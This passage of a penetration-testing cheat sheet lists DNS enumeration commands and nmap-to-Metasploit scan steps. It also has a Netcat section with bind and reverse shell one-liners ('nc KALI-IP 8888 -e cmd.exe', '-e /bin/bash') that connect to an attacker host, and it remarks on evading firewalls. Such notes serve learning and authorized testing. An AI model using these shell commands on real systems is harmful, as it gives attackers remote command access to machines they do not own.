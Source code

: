 Auto DNS enumeration:

	dnsenum website.com
	dnsenum -enum website.com
	
	dnsmap website.com (dictionary DNS resolution)
	
	fierce -dns website.com (dictionary DNS resolution - bigger)

### Metasploit

Scan:

import to metasploit:

	nmap -A 10.1.1.12 -oA basename (output file)
	db_import /root/basename.xml

or run from metasploit:

	db_nmap -A 10.1.1.12 (use nmap command)
	
	hosts (show results)
	hosts -c address,os_name (filter view)
	
	services (show services)
	services -c name,info 10.1.1.12 (filter view)
	services -c name,info -S http (filter view, search services)
	services -c name,info -p 4545 (filter view, search ports)

# Exploitation

## Netcat

Installed on all unix by default (macos, linux), default shell command lines.
Can be used like payload and execute a shell in last versions. (on MacOs, can't execute -e directly)

direct connection: when attacker connect and victim listen
reverse connection: when attacker listen and victim connect (not detected by firewalls - antivirus)

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)

MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
	nc -l 8888 (listen - cannot execute -e directly)

Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Metasploit
